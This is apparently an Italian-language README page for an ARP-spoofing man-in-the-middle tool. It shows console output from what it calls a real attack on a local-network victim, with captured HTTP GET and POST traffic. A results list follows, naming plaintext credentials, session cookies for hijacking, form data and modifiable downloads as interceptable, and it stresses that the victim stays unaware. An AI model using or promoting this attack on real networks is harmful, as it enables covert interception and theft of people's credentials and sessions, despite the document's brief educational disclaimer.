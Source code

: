 ### Esecuzione Attacco MITM

#### Output Attacco Reale
```
🎯 Advanced MITM ARP Spoofer v2.0
=================================
⚠️  Solo per scopi educativi e test di sicurezza

[+] Risolvendo MAC address per 192.168.x.58...
[+] MAC di 192.168.x.58 è 08:00:27:2f:36:a6
[+] Risolvendo MAC address per 192.168.x.141...
[+] MAC di 192.168.x.141 è 2a:42:c4:38:b7:66
[+] Abilitando IP forwarding...
[+] Configurando iptables...
[+] Avviando cattura pacchetti HTTP...

🎯 Iniziando MITM attack:
    Target: 192.168.x.58 (08:00:27:2f:36:a6)
    Gateway: 192.168.x.141 (2a:42:c4:38:b7:66)
    Interface: wlo1

📡 ARP spoofing attivo (modalità silenziosa)
🕵️  Monitorando traffico HTTP...

🌐 [14:30:30] HTTP GET Request
    From: 192.168.x.58 → To: 146.190.62.39
    URL: http://httpforever.com/

📡 [14:30:30] HTTP Response
    From: 146.190.62.39 → To: 192.168.x.58
    Status: 200

🌐 [14:30:31] HTTP POST Request
    From: 192.168.x.58 → To: 216.58.205.35
    URL: http://o.pki.goog/wr2
    POST Data: 0R0P0N0L0J0...

📊 Pacchetti ARP inviati: 150+ | Dati intercettati: 25
```

### Risultati e Implicazioni

#### Traffico Intercettato con Successo
- **HTTP GET Requests**: Tutti i siti web visitati
- **HTTP POST Requests**: Dati di form, login, ricerche
- **Response Status**: 200 (OK), 304 (Not Modified)
- **Invisibilità Completa**: Vittima ignara dell'attacco

#### Dati Sensibili Intercettabili
1. **Credenziali HTTP**: Username/password in chiaro
2. **Session Cookies**: Per session hijacking
3. **Dati Personali**: Form submissions, ricerche  
4. **File Downloads**: Modificabili in tempo reale
5. **DNS Queries**: Domini visitati
